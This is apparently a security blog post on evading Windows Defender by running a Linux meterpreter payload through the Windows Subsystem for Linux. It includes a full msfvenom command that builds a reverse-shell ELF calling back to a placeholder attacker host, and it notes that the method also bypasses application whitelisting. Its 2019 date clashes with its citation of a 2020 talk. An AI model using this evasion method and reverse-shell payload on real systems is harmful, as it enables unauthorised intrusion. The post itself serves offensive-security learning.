 ```yaml
---
title: Bypassing Windows Defender with the Windows Subsystem for Linux!
date: 2019-01-16
draft: false
---
```


After watching BHIS’s Sacred Cash Cow Tipping 2020 I was inspired to try out a few of the techniques BHIS demoed, and this is a pretty fun and odd one.

There’s a few issues with WSL that make it a really poor choice for hacking without some configurations. The interesting one here is that WSL **does not use VHDs or emulate linux filesystems**, in fact, you can navigate to `%AppData%/Local/Packages/$LinuxDistro/LocalState/rootfs` and interact with the entire filesystem.

This also means that every file you make/drop to WSL is scanned by Windows Defender. Don’t even try to install metasploit.

However, as BHIS points out, elf files are not scanned by Defender. So to test this, if you fire up a normal metasploit session and do a quick `msfvenom -f elf -p linux/x64/meterpreter_reverse_tcp LHOST=$IP LPORT=4444 > payload.elf` you can simply drop it to disk and run it through WSL. A shell comes back, no questions asked.

This is pretty cool and exciting and all, but there’s a few drawbacks. The first issue is that since you’re running from a linux payload and from within WSL, you can’t use typical metasploit windows goodies like priv and kiwi without first pivoting.

The other issue is that this technique has a lot of preconditions. You need to first have initial access obviously, but you also need the target to have WSL installed, with a linux distribution installed. This is not most workstations. Installing a linux distro into WSL requires you to first enable the WSL feature in Windows, then restart the machine, and finally install the distro of your choice. Steps 1 and 3 both require administrative privileges by default, so I don’t see a practical use-case unless you can somehow install WSL without admin or the machine is preconfigured.

It’s a very neat trick though, and runs all processes through WSL, which allows you to bypass application whitelisting as well.